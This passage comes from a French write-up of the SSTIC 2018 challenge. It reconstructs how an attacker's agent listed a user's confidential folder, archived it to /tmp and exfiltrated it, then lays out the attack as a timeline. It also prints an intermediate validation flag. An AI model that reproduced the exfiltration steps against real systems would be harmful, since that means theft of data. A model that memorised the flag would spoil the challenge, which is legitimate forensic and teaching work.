Le serveur racine a envoyé quelques commandes *shell* permettant d'énumérer le contenu des dossiers ``/home``, ``/home/user`` et ``/home/user/confidentiel`` avant de créer une archive ``/tmp/confidentiel.tgz`` et de la télécharger par une commande ``GET``.
Ensuite le serveur racine a envoyé une commande ``PUT`` pour créer le fichier ``/tmp/surprise.tgz``.
En concaténant les contenus des commandes ``GET_CONTENT`` et ``PUT_CONTENT``, je parviens à récupérer ``confidentiel.tgz`` et ``surprise.tgz``.
La première archive contient des documents PDF décrivant des outils de la CIA et un flag de validation intermédiaire dans ``home/user/confidentiel/super_secret``:

.. raw:: latex

    \intermediateflag{Battle-tested Encryption}{SSTIC2018\{07aa9feed84a9be785c6edb95688c45a\}}

La seconde contient une collection de 27 photos sur le thème du *Lobster Dog* (cf. figure :raw-latex:`\ref{fig:lobster-dog}`).

.. raw:: latex

    \screenshotwr{.9\textwidth}{lobster-dog}{images/01_wallpapers-pho3nix-albums-wallpaper.jpg}{Image présente dans \texttt{surprise.tgz}}


:raw-latex:`\clearpage`

Synthèse de l'attaque
---------------------
:raw-latex:`\label{sect:1-synthese}`

Les sections précédentes décrivent différents éléments qui permettent de retrouver les communications effectuées entre la machine qui a été attaquée et l'infrastructure de l'attaquant.
Les figures suivantes représentent ces éléments sous la forme de frises chronologiques.
La figure :raw-latex:`\ref{fig:timeline-network}` reprend des connexions TCP/IP présentes dans la trace réseau et la figure :raw-latex:`\ref{fig:timeline-agent}` décrit le contenu de la communication avec ``192.168.23.213:31337``.

.. raw:: latex

    \begin{figure}[htbp]
        \centering
        \input{images/01_timeline_network.tikz.tex}
        \caption{Frise chronologique des connexions effectuées par la machine attaquée}
        \label{fig:timeline-network}
    \end{figure}

    \begin{figure}[htbp]
        \centering
        \input{images/01_timeline_agent.tikz.tex}
        \caption{Chronologie des messages échangés entre l'agent \texttt{/tmp/.f4ncyn0un0urs}, le premier serveur et le serveur racine. Les échanges dessinés en noir sont chiffrés avec les clés AES échangées lors de l'échange de clés, en rouge}
        \label{fig:timeline-agent}
    \end{figure}
